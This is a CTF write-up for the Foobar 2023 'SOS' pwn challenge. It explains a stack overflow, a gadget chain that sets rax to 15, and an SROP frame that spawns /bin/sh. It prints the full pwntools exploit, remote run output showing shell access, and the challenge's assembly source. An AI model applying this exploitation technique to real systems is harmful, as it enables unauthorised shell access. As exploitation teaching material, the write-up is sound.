 # SOS - Foobar 2023

The binary has no protection mechanisms enabled.

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
 ```
Futher, the binary has a stack-based buffer overflow that allows us to place our malicious gadgets directly on top of the stack, which will then be called once the main function callses at ``0x0040102f``.

```
00401000  b801000000         mov     eax, 0x1
00401005  bf01000000         mov     edi, 0x1
0040100a  48be002040000000…mov     rsi, msg  {"Please Sav"}
00401014  ba09000000         mov     edx, 0x9
00401019  0f05               syscall 
0040101b  b800000000         mov     eax, 0x0
00401020  4889e6             mov     rsi, rsp {__return_addr}
00401023  bf00000000         mov     edi, 0x0
00401028  ba90010000         mov     edx, 0x190
0040102d  0f05               syscall 
0040102f  c3                 retn     {__return_addr}
```

However, there are few few usable gadgets in the binary. 

```
0x0000000000401030: shl rax, 1; ret; 
0x000000000040103d: xor rax, rax; ret; 
0x0000000000401034: mov ecx, 1; xor rax, rcx; ret
0x0000000000401019: syscall; 
```

``SROP`` seems like a viable exploit technique since we can control ``RAX`` and have access to a ``syscall`` instruction.

We can use the ``shlr rax, 1`` and ``mov ecx, 1; xor rax, rcx;`` instruction to set rax=15, essentially performing the following operations ``((((((1*2) xor 1)*2) xor 1)*2)+1)==15``. Well go ahead and build a ``set_rax_15()`` chain that does this.


```python
def set_rax_15():
    xrxr = 0x40103d
    xor1 = 0x401034
    shl1 = 0x401030

    chain = p64(xrxr)
    chain += p64(xor1)
    chain += p64(shl1)
    chain += p64(xor1)
    chain += p64(shl1)
    chain += p64(xor1)
    chain += p64(shl1)
    chain += p64(xor1)
    return chain
```

After that all we need to do is trigger a ``sigreturn`` by calling ``syscall``. The ``sigreturn`` syscall will restore the state of the registers from a ``SigreturnFrame``. So well go ahead and develop a sigreturn frame that sets up up for an execve() syscall by setting ``rax=0x3b``, ``rdi=0x40200b (address of /bin/sh)``, and ``rsi=rdx=0x0=NULL``. Further we'll ``RIP=syscall``, which will trigger  ``execve('/bin/sh',NULL,NULL)``

```python
def srop_frame():
    frame = SigreturnFrame()
    frame.rax = constants.SYS_execve
    frame.rdi = 0x40200b
    frame.rsi = 0x0
    frame.rdx = 0x0
    frame.rip = syscall
    return bytes(frame)
```

Putting it all together, our exploit looks like:

```python
from pwn import *

binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)

gs = '''
continue
'''


def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('34.170.55.8', 1337)
    else:
        return process(e.path, level='error')


p = start()
syscall = 0x40102d

'''((((((1*2)+1)*2)+1)*2)+1)'''
def set_rax_15():
    xrxr = 0x40103d
    xor1 = 0x401034
    shl1 = 0x401030

    chain = p64(xrxr)
    chain += p64(xor1)
    chain += p64(shl1)
    chain += p64(xor1)
    chain += p64(shl1)
    chain += p64(xor1)
    chain += p64(shl1)
    chain += p64(xor1)
    return chain


def srop_frame():
    frame = SigreturnFrame()
    frame.rax = constants.SYS_execve
    frame.rdi = 0x40200b
    frame.rsi = 0x0
    frame.rdx = 0x0
    frame.rip = syscall
    return bytes(frame)


chain = set_rax_15()
chain += p64(syscall)
chain += srop_frame()
p.sendline(chain)
p.interactive()
```

Throwing our exploit at the REMOTE server, we get the flag ``GLUG{TH4nKS_f0R_ReSp0ND1nG_7O_my_SiGNA1}``. 

```
└─# python3 pwn-sos.py BIN=./chall REMOTE
[*] '/root/workspace/foobar/sos/chall'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to 34.170.55.8 on port 1337: Done
[*] Switching to interactive mode
Please Sa$ cat flag.txt
GLUG{TH4nKS_f0R_ReSp0ND1nG_7O_my_SiGNA1}
```

The challenge authors also left the challenge source code on the remtoe server as well.


```s
global _start

section .text

__start:
_start:
  mov rax, 1        
  mov rdi, 1        
  mov rsi, msg      
  mov rdx, 9  
  syscall

  mov rax, 0
  mov rsi, rsp
  mov rdi, 0
  mov rdx, 400
  syscall
  ret

  shl rax, 1
  ret

  mov rcx, 1
  xor rax, rcx
  ret

  xor rax, rax
  ret

section .data
  msg: db "Please Sav", 0
  sh: db "/bin/sh", 0
```